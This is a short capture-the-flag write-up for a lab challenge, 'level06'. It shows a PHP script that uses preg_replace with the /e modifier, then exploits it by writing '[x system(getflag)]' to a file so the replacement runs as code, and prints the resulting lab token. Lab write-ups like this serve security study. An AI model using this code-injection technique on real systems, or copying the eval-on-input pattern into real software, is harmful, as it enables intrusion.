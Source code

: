 # level06

```bash
~$ ls
level06  level06.php
```

`level06` is an executable, it does some uid & gid magic, then launches `level06.php`.

`level06.php`:

```php
#!/usr/bin/php
<?php
function y($m)
{
    $m = preg_replace("/\./", " x ", $m);
    $m = preg_replace("/@/", " y", $m);
    return $m;
}
function x($y, $z)
{
    $a = file_get_contents($y);
    $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
    $a = preg_replace("/\[/", "(", $a);
    $a = preg_replace("/\]/", ")", $a);
    return $a;
}
$r = x($argv[1], $argv[2]);
print $r;
?>
```

> Setting the e regex modifier will cause PHP to execute the replacement value as code

```bash
~$ echo "[x system(getflag)]" > /tmp/file
~$ ./level06 /tmp/file
Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```
